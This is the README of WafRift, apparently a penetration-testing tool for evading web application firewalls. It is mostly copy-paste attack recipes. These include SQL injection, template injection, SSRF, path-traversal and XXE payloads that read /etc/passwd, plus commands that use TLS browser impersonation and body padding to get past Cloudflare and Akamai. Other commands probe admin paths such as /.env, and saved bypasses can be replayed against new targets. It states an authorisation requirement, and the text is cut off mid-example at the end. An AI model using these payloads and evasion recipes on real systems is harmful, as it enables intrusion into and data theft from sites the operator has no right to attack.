

# WafRift

[](https://github.com/santhsecurity/wafrift/actions/workflows/ci.yml)
[](#license)
[](https://crates.io/crates/wafrift-cli)



> Part of the [Santh](https://santh.dev) security research ecosystem.

> **Status: BETA.** WafRift is under active development and has **not been
> extensively tested against live production WAFs in the field**. The local
> WAF stacks under `wafrift-bench/targets/` (ModSecurity PL1–4, Coraza,
> BunkerWeb, naxsi) are exercised in CI, but coverage of cloud WAFs
> (Cloudflare, AWS WAF, Akamai, Imperva, Azure Front Door, F5) is still
> sparse. Treat results from those targets as preliminary.
>
> **Pull requests are welcome** — bug reports, evasion techniques, WAF
> fixtures, and gene-bank submissions especially. See [CONTRIBUTING.md](CONTRIBUTING.md)
> if it exists; otherwise open an issue or PR directly on
> [github.com/santhsecurity/wafrift](https://github.com/santhsecurity/wafrift).

**A programmable WAF-evasion engine with per-technique controls, and an evolutionary mode that learns bypasses for you.**

Other tools give you one trick: junk padding, header injection, smuggling, or a static tamper list. WafRift is the union: encoding, grammar-aware mutation, content-type switching, request smuggling, and TLS/HTTP fingerprint rotation. The CLI exposes every encoding strategy and the grammar layer as fine-grained `--only`/`--exclude` selectors; the rest run as part of the default pipeline. Per-host toggle persistence and a Burp Suite control panel are tracked in the [roadmap](docs/GAP_CLOSURE_ROADMAP.md). Turn the engine loose and a search loop (hill-climb / SA / tabu / novelty / MAP-Elites) discovers what bypasses the target WAF and persists winning pipelines to a per-WAF **gene bank** so the next scan starts with zero discovery phase.

## What's new (v0.2.13)

- **Proxy adversarial sweep — 6 defects fixed.**
  - **CRITICAL** `crates/proxy/src/mitm.rs:214` — leaf certs for IP
    literals (`https://127.0.0.1`, `https://[::1]`) used dNSName SAN
    instead of iPAddress SAN, causing browser TLS errors on every
    MITM of a private IP. Fixed: `iPAddress` SAN for IP literals.
  - **HIGH** `crates/proxy/src/main.rs:1759` — stealth response path
    parsed only the first `Connection` header, leaking hop-by-hop
    tokens from later `Connection` headers downstream.
  - **HIGH** `crates/proxy/src/main.rs:479` — gene-bank loader
    silently discarded pre-schema-v0.1 flat-HashMap files,
    destroying all saved discovery on upgrade.
  - **HIGH** `crates/proxy/src/main.rs:598` — `restore_gene_bank`
    bypassed the 10K host memory cap; malicious gene-banks could
    exhaust proxy RAM at startup.
  - **MEDIUM** `crates/proxy/src/main.rs:626` — `--max-evade-retries`
    had no upper bound; per-request retry storms pinned CPU.
  - **MEDIUM** `crates/proxy/src/tui/state.rs:382` — TUI host list
    grew without bound during long engagements.
  - **LOW** `crates/proxy/src/main.rs:570` — `save_gene_bank` left
    tempfiles behind on disk-full / I/O errors.
  - +367 LOC of new tests across `evade_retry_cap.rs`,
    `mitm_ip_san.rs`, `proxy_tests.rs`. wafrift-proxy now 283 / 283
    green.

## What's new (v0.2.12)

- **Pentester acceptance sweep.** Two fixes that matter the moment
  a pentester actually uses the tool: (a) `wafrift --quiet evade ... |
  head` no longer panics with "failed printing to stdout: Broken
  pipe" — both binaries install `SIGPIPE = SIG_DFL` at startup (the
  canonical Unix CLI idiom). Locked with a regression test. (b)
  README gained a Burp Suite / Caido / mitmproxy upstream-proxy
  chaining recipe so `Browser → Burp → wafrift-proxy → Target` is
  documented end-to-end, including the standard 8080 port collision
  workaround.
- **SSRF NUL-in-host engine fix.** `SsrfOracle` now salvages the
  CVE-2017-15046 family (`http://127.0.0.1%00.evil.com/` and the
  literal-NUL twin) by stripping at the first encoded-or-literal NUL
  after `://`, re-parsing the prefix, and accepting iff the parsed
  host is itself an SSRF indicator. The salvage is gated on the
  parsed `host_str()` so existing public-host substring FPs can't
  exploit the new path. Locked with 9 corpus tests including a
  negative twin.
- **Doctest coverage 1 → 28** across all 16 library crates. Every
  public API now ships with a runnable example that compiles, runs
  under `cargo test --doc`, and renders on docs.rs.
- **Tier-B TOML migration.** 16 hardcoded `const X: &[&str]` lists
  across 7 source files moved to TOML data under each crate's
  `rules/` directory: WAF block indicators (13), XSS validation
  taxonomy (70), XSS mutator corpus (42), SSRF schemes (10), SSTI
  introspection markers (20), LDAP grammar (16), HTTP/2 GOAWAY
  phrases (4). Loaded via `OnceLock` + `include_str!` so cargo
  install still produces a self-contained binary. ~155 entries are
  now community-extensible without touching Rust.
- **CI hardening.** New `cargo audit` job (continue-on-error so
  transitive-dep advisories don't block PR merges but stay
  visible). `manpage_in_sync.rs` regression test catches
  `docs/man/wafrift.1` drift before merge — the manpage shipped
  stale at three previous releases (0.2.1, 0.2.11, 0.2.12) before
  this gate. `rust-version` synced 1.85 → 1.88 to match what CI
  actually proves.
- **Workspace polish.** Pedantic clippy down 936 → ~440;
  `clippy::doc_markdown` cleared 287 → 0 so every public docstring
  renders cleanly on docs.rs. Three thin crate READMEs
  (`wafrift-types`, `wafrift-content-type`, `wafrift-pool`)
  expanded from one-paragraph stubs to structured pages with API
  surface, stability notes, and usage. Five `#[allow(dead_code)]`
  markers on public API surface dropped. Smoke-alarm encoding
  tests in `core/tests/encoding_*` (12 sites) hardened to byte-
  precise %-encoding assertions with span-count and pass-through
  checks. Orphan `oracle/src/test_url.rs` deleted; URL corpus
  salvaged into a real `ssrf_loopback_bypass_corpus` integration
  test. 2926 / 2926 workspace tests green.

## What's new (v0.2.11)

- **Audit-driven hardening sweep (batches 1–9, v0.2.4 → v0.2.11).**
  Nine review batches landed CRITICAL / HIGH / MEDIUM credibility
  fixes across the whole workspace: PSL supercookie guard on cookie
  `Domain=` (`transport`); per-request DNS pinning to close hostname
  rebinding for `StealthClient`; precision rewrite of XSS signal
  scoring (`grammar`); `EvasionConfig.allow_private_upstream`
  (default `false`) blocks RFC1918 / loopback / link-local SSRF
  unless explicitly opted in; per-host fairness in the global
  challenge-prompt cap; budget repay on dropped MCTS evals;
  status-aware classifier kills 200-OK false positives; `HostState`
  totals lifted to `u64`; CRLF/NUL/`;` rejected in cookie values to
  block HTTP request splitting; `oracle` cmdi OOM and ssrf "0"
  indicator FP fixes; bench harness, MITM cert builder, intercept
  GC, learning-cache atomic-save, and content-type unique-boundary
  wiring all hardened. 30 hollow content-type tests + 3 smuggling
  smoke alarms replaced with rigorous structural assertions.
  2892 / 2892 workspace tests green at v0.2.11.
- **Genome registry (`wafrift-genome-registry`)** — ed25519-signed
  community evasion bundles, deterministic canonical encoding,
  trust list at `~/.wafrift/trusted-keys.toml`, surfaced under
  `wafrift bank`.
- **`captchaforge` adapter (`wafrift-captchaforge-bridge`)** —
  optional managed-challenge solver that subscribes a chromiumoxide
  solver into wafrift's challenge flow. `wafrift-proxy --captchaforge`.
- **`wafrift bypass-probe URL`** — Tsai-class differential vuln
  finder. Fires 136 auth-bypass header probes
  plus path-routing variants and HTTP method overrides against a single URL or a `--paths-file`
  list, classifies each response vs the baseline, reports HIGH /
  MEDIUM / LOW divergences with reproduce-it `curl` commands.
  Bounded-concurrency (`--concurrency 8` default) — 12 paths × ~190
  probes each finishes in <1 second.

## Earlier changes (v0.2.3)

- **`wafrift bypass-probe URL`** — the Tsai-class differential vuln
  finder. Fires 136 auth-bypass header probes
  plus path-routing variants and HTTP method overrides against a single URL or a `--paths-file`
  list, classifies each response vs the baseline, reports HIGH /
  MEDIUM / LOW divergences with reproduce-it `curl` commands.
  Bounded-concurrency (`--concurrency 8` default) — 12 paths × ~190
  probes each finishes in <1 second.
- **`wafrift evade --payload "http://allowed.com/"`** now generates
  the full Orange-Tsai parser-confusion family (basic userinfo,
  GitLab CVE-2018-19571 fragment-userinfo, query-userinfo, backslash,
  `%40` / `%2540`, port-then-userinfo, newline / null in authority)
  for SSRF payloads — using the user's input host as the cover and
  rotating cloud-metadata targets through the userinfo position.
- **`wafrift-proxy --tui`** rewritten as a real MITM live viewer.
  Three tabs (Flow / Overview / Hosts), per-request inspect pane
  showing both directions (headers + body excerpts), live req/s
  + bypasses/s sparklines, status-graded coloring. `j`/`k` to
  navigate, `Enter` to inspect, `Tab` to switch tabs.
- **`wafrift-proxy --mitm`** no longer aborts on HTTPS — the rustls
  CryptoProvider is now installed at startup. Verified end-to-end
  against `example.com`.
- **Stability**: a single 100 KB POST used to hang the proxy and
  cascade-kill it under load (held a global mutex across MCTS
  iteration). Lock now snapshots state and runs evasion outside.
  50 concurrent reqs → 50 HTTP 200 instead of all timeout.
- **Bench corpus**: 579 → 607 cases. New TOML files for
  parser-confusion-authority (SSRF) and routing-disagreement
  (path).
- See `CHANGELOG.md` for the full v0.2.3 entry (lock fix, MCTS body
  budget, three more UTF-8 mutator panics, `--insecure` warn,
  gene-bank race fix, eleven misplaced test blocks rescued, clippy
  `-D warnings` clean).

## Measured bypass rates

Every number below is reproducible from the bench harness in
[`wafrift-bench/`](./wafrift-bench/). Methodology in
[`wafrift-bench/methodology.md`](./wafrift-bench/methodology.md);
machine-readable JSON in `wafrift-bench/results/`.

**Target: ModSecurity + OWASP CRS (the most-deployed open-source WAF).**
Corpus: 557 cases across 10 attack classes (sql / xss / cmdi / ssti /
path / ldap / xxe / ssrf / nosql / log4shell). 10 evasion strategies
combined: payload-string mutation, MCTS (mctrust 0.4), HTTP smuggling,
content-type confusion, ReDoS, hill-climbing, simulated annealing,
tabu, novelty, MAP-Elites. Oracle-gated (each "bypass" verified
structurally as a valid attack, not garbage that slipped past).

| Paranoia | Variants sent | Bypassed | Bypass rate | Cases ≥1 bypass |
|---|---:|---:|---:|---:|
| **PL=1** (default) | 46k | 16.7k | **36%** | **557 / 557 (100%)** |
| PL=2 | 60k | 17.6k | 29% | 557 / 557 (100%) |
| PL=3 | 60k | 17.3k | 28% | 557 / 557 (100%) |
| **PL=4** (most aggressive) | 60k | 16.3k | **27%** | **557 / 557 (100%)** |

**At every paranoia level, including PL=4, the most paranoid CRS
preset: every single attack case in the corpus has at least one
working bypass when the full strategy stack is applied with 60+
variants per case.** Once a working evasion seed exists, the per-host
gene bank (`~/.wafrift/genomes/`) replays it indefinitely, so
subsequent scans against the same WAF start with zero discovery
phase.

**What this number does NOT mean.** "557/557 cases bypassed" is a
search-budget result, not a one-shot bypass rate. With the proxy alone
on default settings (no `--max-evade-retries`, only HTTP-layer
escalation) a single naked SQLi against PL=4 will typically still get
blocked: the proxy doesn't currently mutate URL-injected payload
bytes, only HTTP-layer artefacts (UA / headers / body encoding).
Payload-byte mutation lives in `wafrift scan` and `wafrift bench-waf`.
For a worked example see
[`docs/PRACTITIONER_WALKTHROUGH.md`](./docs/PRACTITIONER_WALKTHROUGH.md).

```bash
# Reproduce
git clone https://github.com/santhsecurity/wafrift && cd wafrift
wafrift-bench/scripts/up.sh modsec-pl4
cargo run --release -p wafrift-cli -- bench-waf \
    --base-url http://127.0.0.1:18084 \
    --corpus wafrift-bench/corpus \
    --evade --variants 20 \
    --strategies heavy,mcts,smuggling,content-type,redos,hill-climb,sim-anneal,tabu,novelty,map-elites,differential \
    --oracle-gate \
    --output repro.json
jq .evaded_summary repro.json
```

## How WafRift compares

| Tool | Encoding | Grammar mutation | Smuggling | Content-type swap | Per-host learning | Forward proxy | Replay |
|---|:-:|:-:|:-:|:-:|:-:|:-:|:-:|
| sqlmap `--tamper` | partial | SQL only | – | – | – | via `--proxy` | – |
| Burp `nowafpls` | – | – | – | – | – | Burp ext. | – |
| Burp "Bypass WAF" | header tricks | – | – | – | – | Burp ext. | – |
| HTTP Request Smuggler | – | – | yes | – | – | Burp ext. | – |
| **WafRift** | **15+ strategies** | **SQL/XSS/CMD/SSTI/path/LDAP/SSRF** | **CL.TE / TE.CL / TE.TE** | **multipart/json/xml** | **gene-bank** | **standalone + MITM** | **deterministic** |

WafRift does NOT replace sqlmap (still the right end-to-end SQLi
exploitation tool against an unprotected target) or Burp (still the
right intercepting GUI for an interactive session). WafRift is the
evasion layer you add when those tools are blocked by a WAF. Once a
working evasion seed exists, the per-host gene bank
(`~/.wafrift/genomes/`) replays it indefinitely — a Cloudflare scan
starts with proven bypasses on every subsequent run, **zero
discovery phase**. Grammar mutations are validated against
`sqlparser-rs` AST equivalence, so SQL variants actually parse — most
tampers ship broken payloads and don't know it.

## Installation

### Prebuilt binaries (recommended)

Download the latest release for your platform from [GitHub Releases](https://github.com/santhsecurity/wafrift/releases):

```bash
# Linux (x86_64)
curl -sSfL https://github.com/santhsecurity/wafrift/releases/latest/download/wafrift-$(uname -m)-unknown-linux-gnu.tar.gz | tar xz
sudo mv wafrift wafrift-proxy /usr/local/bin/

# macOS (Apple Silicon)
curl -sSfL https://github.com/santhsecurity/wafrift/releases/latest/download/wafrift-aarch64-apple-darwin.tar.gz | tar xz
mv wafrift wafrift-proxy /usr/local/bin/
```

### From crates.io

```bash
cargo install wafrift-cli --version '>=0.2.13'
# Optional: TLS impersonation (rquest 5.x + BoringSSL, adds boring-sys C build)
cargo install wafrift-proxy --version '>=0.2.13' --features tls-impersonate
```

This installs the `wafrift` and `wafrift-proxy` binaries. Requires a
Rust toolchain.

> **⚠ Avoid `wafrift-detect@0.2.0`.** The 0.2.0 build of the
> `wafrift-detect` sub-crate on crates.io shipped with an empty WAF
> rule database (build-script path bug; the 182 vendored TOML files
> were excluded from the published artefact). 0.2.1+ is fixed and is
> the version pulled in by `wafrift-cli >= 0.2.1`. If you have an
> older install: `cargo install --force wafrift-cli`.
>
> **0.2.2 highlights:** body-padding evasion (cloud-WAF inspection
> bypass), TLS profile rotation pool, per-request connection-reuse
> off, real-time TUI dashboard, `quote_free` SQL mutator (naxsi 0.6%
> → 99.4%), SSRF scheme-mangling (naxsi 2.1% → 78.7%), path absolute-
> target promotion (naxsi 5.6% → 70.4%). Full notes: CHANGELOG.md.

### From source

```bash
git clone https://github.com/santhsecurity/wafrift && cd wafrift
cargo install --path crates/cli
```

## Quickstart

Pick your workflow: each is copy-paste ready.

### 🏁 CTF: "I have a SQLi but there's a WAF"

```bash
# Get bypass variants instantly (offline, no target needed)
wafrift evade --payload "' OR 1=1--" --level heavy

# Found a WAF? Fire all variants and see what gets through
wafrift scan --target http://ctf.example/vuln --payload "' OR 1=1--"
```

### 🔍 Pentest: "sqlmap/ffuf behind a WAF"

```bash
# Start the evasion proxy
cargo run -p wafrift-proxy -- --listen 127.0.0.1:8080

# Route your tools through it
sqlmap -u "https://target/x?id=1" --proxy="http://127.0.0.1:8080"
ffuf -x http://127.0.0.1:8080 -u https://target/FUZZ -w wordlist.txt

# Check live findings mid-session
curl http://127.0.0.1:8080/_wafrift/findings.md
```

### 🎯 Bug Bounty: "Scan this target, give me a report"

```bash
# Full autonomous scan with JSON output
wafrift scan --target https://target.com --payload "' UNION SELECT 1--" \
  --param id --format json --output results.json

# Generate a markdown writeup from findings
wafrift report --only-host target.com --output writeup.md
```

### 🗺️ Discovery: "I have an OpenAPI spec / GraphQL endpoint, find injection points"

```bash
# Parse an OpenAPI 2.0/3.x JSON spec into structured injection points
wafrift discover --spec api.json --format json --output endpoints.json

# Probe a GraphQL server's introspection schema
wafrift discover --target https://api.example.com/graphql --introspect

# Differential parameter mining against a single endpoint
wafrift discover --target https://app.example.com/search \
  --mine-params --wordlist /path/to/burp-parameter-names.txt

# Combine modes; results are deduplicated by (method, url) and emit
# `DiscoveredEndpoint` JSON suitable for piping into `wafrift scan`.
wafrift discover --spec api.json --target https://app.example.com \
  --introspect --mine-params --wordlist params.txt --format json
```

Each injection point carries its `ParameterLocation` (Query / Path /
Header / Cookie / Body), `InjectionContext` (`JsonString` /
`UrlQuery` / `XmlText` / `MultipartField` / etc.) inferred from the
spec's media type, and a `required` flag: letting `wafrift scan`
pick context-aware encodings instead of guessing.

### 🛡️ Stealth: "Cloudflare/Akamai blocks me on JA3 before I can even probe"

```bash
# One-time: build with the BoringSSL impersonation feature.
cargo install wafrift-proxy --features tls-impersonate

# Run the proxy wearing a real Chrome 131 ClientHello on every
# upstream forward. JA3 / JA4 / h2 SETTINGS all match a real browser
# bytes-for-bytes: edge WAFs that classify on TLS fingerprint
# (Cloudflare bot management, Akamai, Sigsci, Imperva Bot Protection)
# see "browser" instead of "rustls" and let the connection through to
# inspection, where wafrift's HTTP-level evasion takes over.
wafrift-proxy --listen 127.0.0.1:8080 --tls-impersonate chrome131

# Profiles: chrome131, chrome120, edge131, firefox133, safari18,
# safari17_5, okhttp5; aliases `chrome`, `firefox`, `safari`, `edge`
# resolve to the latest-of-family. See docs/TLS_PARITY.md.

# Now sqlmap / ffuf / curl through this proxy gets through edge TLS
# fingerprinting without any extra config.
sqlmap -u "https://target.cloudflare-protected.com/x?id=1" --proxy=http://127.0.0.1:8080
```

#### Per-request fingerprint rotation + body padding

Cloud WAFs inspect only the leading bytes of a request body
(Cloudflare Pro 8 KB, AWS WAF 16 KB, Akamai 8 KB): pad past that
window and the rule engine never sees the malicious bytes. Combine
with TLS profile rotation and a fresh TCP source port per request:

```bash
wafrift-proxy --listen 127.0.0.1:8080 \
    --tls-impersonate-rotate chrome131,firefox133,safari18 \
    --body-padding-bytes 16384 \
    --no-conn-reuse \
    --tui
```

- `--tls-impersonate-rotate` round-robins across the listed browser
  profiles. Defeats per-fingerprint rate limits and reputation.
- `--body-padding-bytes 16384` prepends 16 KB of inert filler to every
  JSON / form-urlencoded / multipart body via the new
  `_wafrift_pad` field/part. Cloud WAFs miss the payload; the origin
  parses it correctly.
- `--no-conn-reuse` opens a fresh TCP connection per upstream forward
  (kernel picks a new ephemeral source port each time).
- `--tui` opens a real-time terminal dashboard (per-host bypass rate,
  TLS rotation distribution, padded-body counter, live request stream).
  Press `q` for graceful shutdown, `r` to reset counters.

### 🔴 Red Team: "Persistent evasion against the same WAF"

```bash
# First scan learns what bypasses the WAF in front of target.com
# (wafrift detects the WAF automatically and tags genome by name)
wafrift scan --target https://target.com --payload "' OR 1=1--"

# Subsequent scans against any target behind the same WAF start in
# rotation mode (zero discovery). Genome at ~/.wafrift/genomes/<waf>.json
# persists across sessions.
wafrift scan --target https://other-target-same-waf.com --payload "' OR 1=1--"

# Replay a finding deterministically (exits 0 on bypass, 2 on block).
# --from-waf reads the genome wafrift's detect step identified earlier
# (e.g. "ModSecurity"); --from-host pulls from the proxy gene-bank.
wafrift replay --target https://target.com --param id \
    --payload "' OR 1=1--" --from-waf ModSecurity
```

> Genomes only exist for WAFs you've previously scanned. Out-of-the-box
> there are no pre-shipped vendor genomes; first scan against any new
> WAF goes through full discovery.

## Operator reference

The persona quickstarts above cover most workflows. Three areas warrant
their own reference because they're easy to miss otherwise.

### Live MITM dashboard (`wafrift-proxy --tui`)

Three tabs. Switch with `Tab` or `1`/`2`/`3` (or `f`/`o`/`h`).

- **Flow** — bounded ring of 500 requests with status-graded coloring
  (2xx green, 3xx cyan, 4xx yellow, 5xx red; outcome BYPASS green,
  BLOCK red, PASS white). `j`/`k` navigate, `g`/`G` jump to first /
  last, `Enter` toggles a side detail pane that shows the full
  inspection: outgoing request line + every post-evasion header +
  body excerpt; incoming response status + every header + body
  excerpt; summary block (WAF, attempts, latency, body padding, TLS
  profile, technique chain, total response size). Two sparklines
  underneath: req/s and bypasses/s over the last 60 s.
- **Overview** — counters, TLS rotation gauge, WAFs identified.
- **Hosts** — per-host bypass table sortable by sent count, with
  bypass-rate color grading and the identified WAF column.
- `q` / `Esc` to quit (gracefully flushes the gene bank).

### Fine-grained technique selection

Every encoding strategy and the grammar layer is addressable as a
hierarchical path. List the tree, then include or exclude per command:

```bash
wafrift techniques list                                # see the tree
wafrift evade --payload "' OR 1=1--" --only encoding/url
wafrift scan --target http://target.com --payload "' OR 1=1--" \
    --exclude encoding/url/triple,encoding/sql/comment
```

Unknown selectors fail fast — no silent drops.

### Differential bypass probing (`wafrift bypass-probe`)

For Tsai-class boundary-mismatch vulns (admin panel gated by WAF
header rule, `X-Original-URL` rewrite, ProxyShell-style routing
disagreement, IP-trust spoofing), point bypass-probe at the resource
and let it fire the full 136-probe auth-bypass set plus path/method variants:

```bash
# Single URL
wafrift bypass-probe https://target/admin --concurrency 16

# Whole admin surface from a list
cat > paths.txt <<EOF
/admin
/api/admin
/.env
/actuator/env
/wp-admin
EOF
wafrift bypass-probe https://target --paths-file paths.txt \
    --concurrency 16 --min-severity medium --format json > findings.json
```

Each divergence (status flip, body delta) is reported with a
reproduce-it `curl` one-liner.

### Burp Suite / Caido / mitmproxy chaining

WafRift is a forward HTTP proxy and slots in next to any other intercepting
proxy. The conventional pentest layout is:

```
Browser → Burp (8080) → wafrift-proxy (8181) → Target
                ▲                  ▲
                │                  └── applies WAF evasion (encoding,
                │                      CT switching, padding, fingerprint
                │                      rotation, MCTS) before forwarding
                │
                └── operator inspects/edits requests in Burp's UI as usual
```

Run wafrift-proxy on a different port (Burp owns 8080 by default; use 8181
or any free port) and tell Burp to use it as the "Upstream Proxy Server"
for the target host:

```bash
# 1. Start wafrift-proxy on 8181 with whichever evasion config you want.
wafrift-proxy --listen 127.0.0.1:8181 \
  --content-type-switching \
  --max-rps-per-host 5 \
  --tls-impersonate-rotate chrome131,firefox133

# 2. In Burp:  User options → Connections → Upstream Proxy Servers
#    → Add → Destination host: target.example.com
#                Proxy host: 127.0.0.1   Proxy port: 8181
#
# Caido has the same setting under  Settings → Proxies → Upstreams.
# mitmproxy:  mitmdump --mode upstream:http://127.0.0.1:8181
```

The Burp tab still shows every request and lets you intercept / replay /
scope; wafrift-proxy applies evasion just before the upstream forward and
records bypasses to its gene bank — so subsequent runs of the same
target start from the learned winners, not zero discovery.

To replay a captured Burp request directly through wafrift's evasion
pipeline (no proxy chain needed), copy as cURL and pipe through
`import-curl`:

```bash
# Burp → right-click request → Copy as cURL → save to /tmp/req.curl
xclip -o > /tmp/req.curl
wafrift import-curl /tmp/req.curl --evade --output /tmp/scan.json
```

CLI output is line-delimited JSON when `--quiet` is set, so it pipes
cleanly into `jq`, `head`, `grep -m 1`, etc. (`SIGPIPE` is handled
silently — no broken-pipe panics on `wafrift evade ... | head`).

### Proxy scope, rate limit, live findings

```bash
# Only evade *.example.com on JSON API endpoints; skip login + static.
wafrift-proxy --listen 127.0.0.1:8080 --mitm \
  --only-host '*.example.com' \
  --skip-path '/static/*,/oauth/*,/login,/favicon.ico' \
  --only-method 'POST,PUT,PATCH,DELETE'

# Token bucket: 5 req/s per upstream host, burst of 10.
wafrift-proxy --listen 127.0.0.1:8080 --mitm \
  --max-rps-per-host 5 --max-rps-per-host-burst 10

# Live findings, loopback-only:
curl http://127.0.0.1:8080/_wafrift/findings.md   # markdown writeup
curl http://127.0.0.1:8080/_wafrift/status        # JSON (per-host stats)
```

Globs use a tiny ASCII grammar (`*` matches any run, `?` matches one
byte, case-insensitive). `--skip-host`/`--skip-path` evaluate after
their `--only-*` counterparts.

### Authorisation

`wafrift-proxy` refuses upstream targets in private / loopback /
RFC1918 / link-local ranges by default; pass `--allow-private-upstream`
only against lab targets you own. `wafrift replay` and `bypass-probe`
send genuinely exploitable strings: only run them against systems you
control or have explicit written authorisation to test.

### CTF / pentest quick recipes

Five common shapes a security practitioner runs into. Every recipe is a single command: no setup beyond `cargo install wafrift-cli` (or `docker run santhsecurity/wafrift`) and the `--target`/`--payload` you'd be testing anyway.

**1. SQL-injection login bypass.** WAF blocks `' OR 1=1--`; find a variant that lands.

```bash
wafrift scan --target https://target/login \
  --payload "' OR 1=1--" --param username --level heavy
```

Output prints which evasion technique chain produced the bypass. Replay later with the exact chain saved into the gene-bank: second run skips discovery.

**2. SSTI in a server-side template.** Variant of `{{7*7}}` that the WAF allows but the engine still evaluates.

```bash
wafrift scan --target https://target/profile \
  --payload "{{7*7}}" --param name --level heavy --only grammar/ssti,encoding
```

`--only grammar/ssti,encoding` keeps the search focused: running the full pipeline against a single template reflection is slow.

**3. SSRF to internal admin.** Smuggle a `127.0.0.1:9000` request past a WAF that only blacklists string `127.0.0.1`.

```bash
wafrift scan --target https://target/preview \
  --payload "http://127.0.0.1:9000/admin" --param url --level heavy \
  --only encoding,grammar/ssrf
```

The differential probe set (`wafrift probe`) lists the sub-techniques the WAF reliably blocks for this class, handy when the scan comes back empty and you need to know what NOT to retry.

**4. Path traversal / LFI.** WAF blocks `../`; find a variant that survives.

```bash
wafrift scan --target https://target/static \
  --payload "../../../etc/passwd" --param file --level heavy \
  --only encoding/url,encoding/unicode,grammar/path
```

**5. XXE in an XML body.** Practitioner has the request body in a file; want to scan with that exact body shape.

```bash
# Copy the request as cURL out of Burp/ZAP, paste through import-curl:
pbpaste | wafrift import-curl --from-stdin \
  --param xmlData --payload '<!DOCTYPE foo [<!ENTITY x SYSTEM "file:///etc/passwd">]><foo>&x;</foo>' \
  --level heavy
```

**Saving and replaying findings.** Once a recipe lands a bypass, persist it to the gene-bank so subsequent runs (or teammates) don't re-do discovery:

```bash
wafrift seed --waf modsec-crs --technique EncodingDoubleUrl,GrammarTautology
wafrift bank export --output bundle.json    # share with teammate
wafrift bank import bundle.json             # on teammate's machine
```

Replay any saved finding deterministically:

```bash
wafrift replay --target https://target/login --param username \
  --payload "' OR 1=1--" --from-host target  # exits 0 on bypass, 2 on block
```

## Architecture

```
wafrift
├── crates/
│   ├── types          # Core types: Request, Technique, EvasionResult
│   ├── encoding       # 15+ encoding strategies (URL, Unicode, HTML entity, chunked, etc.)
│   ├── grammar        # Grammar-aware payload mutations (SQLi, XSS, CMD, SSTI, SSRF, LDAPi, path traversal)
│   ├── content-type   # Content-Type switching (JSON, XML, multipart, etc.)
│   ├── smuggling      # HTTP request smuggling (CL.TE, TE.CL, H2)
│   ├── fingerprint    # Browser fingerprint rotation (User-Agent, TLS, headers)
│   ├── detect         # WAF fingerprinting (160+ WAFs via TOML rules)
│   ├── evolution      # Genetic algorithm: crossover, mutation, fitness, MCTS, differential probing
│   ├── oracle         # Multi-signal response classification (block / bypass / challenge / rate-limit)
│   ├── strategy       # Pipeline orchestrator + gene bank + learning cache + adaptive host state
│   ├── transport      # Evasion-aware HTTP client with auto-retry
│   ├── proxy          # HTTP forward proxy with per-host adaptive evasion
│   ├── pool           # Proxy pool rotation (round-robin HTTP/SOCKS5)
│   ├── recon          # Origin discovery via OSINT (CT logs, DNS history)
│   └── cli            # Interactive TUI + headless scan/evade/detect/probe commands
```

## As a Library

Import the façade crate for all modules under one dependency, or pull individual crates (see below).

```toml
[dependencies]
wafrift-core = "0.1"
tokio = { version = "1", features = ["rt-multi-thread", "macros"] }
```

```rust
use wafrift_core::encoding::{self, Strategy};

#[tokio::main]
async fn main() -> Result<(), Box<dyn std::error::Error>> {
    let encoded = encoding::encode(b"' OR 1=1--", Strategy::UnicodeEncode)?;
    println!("{encoded}");
    Ok(())
}
```

The CLI’s live `scan` flow is built from `wafrift-strategy`, `wafrift-transport`, and `wafrift-detect`; embed those crates directly if you need the same pipeline without the binary.

## As Individual Crates

Use exactly the piece you need: no full-engine import required.

```toml
[dependencies]
wafrift-encoding = "0.1"    # 15+ encoding strategies
wafrift-grammar = "0.1"     # SQL/XSS/CMD/SSTI dialect mutations
wafrift-detect = "0.1"      # WAF fingerprinting (160+ WAFs via TOML rules)
wafrift-smuggling = "0.1"   # HTTP request smuggling probes
wafrift-evolution = "0.1"   # Genetic/novelty/MAP-Elites bypass search
wafrift-oracle = "0.1"      # Response verdict classification
wafrift-strategy = "0.1"    # Per-WAF evasion pipeline planning
```

```rust
use wafrift_encoding::{Strategy, encode};

let encoded = encode(b"' OR 1=1--", Strategy::UnicodeEscape)?;
```

## Community Rules (Tier B)

WAF signatures, evasion pipelines, and smuggling probes live as TOML files in `rules/`. The detection catalog (160+ WAFs) is derived from [wafw00f](https://github.com/EnableSecurity/wafw00f) (BSD-3-Clause) plus selective contributions from [identYwaf](https://github.com/stamparm/identYwaf) (MIT) and locally researched additions; every TOML rule carries a `source` field pointing back at its origin. Adding a new WAF = 5 lines of TOML, no Rust knowledge:

```toml
# rules/detect/mywaf.toml
name = "MyWAF"
vendor = "Example Corp"
confidence_weight = 0.9

[[headers]]
name = "Server"
pattern = "MyWAF/\\d+"

[[body_patterns]]
pattern = "(?i)blocked by MyWAF"

evasions = ["encoding::unicode", "grammar::tautology_swap"]
```

Drop into `rules/detect/` and the detector loads it at startup.

## Gene Bank

WafRift remembers what works. After every scan, learned techniques are persisted to `~/.wafrift/genomes/<waf_name>.json`:

```json
{
  "waf_name": "Cloudflare",
  "techniques": [
    { "name": "encoding::UnicodeEncode", "total_successes": 13, "total_attempts": 13 },
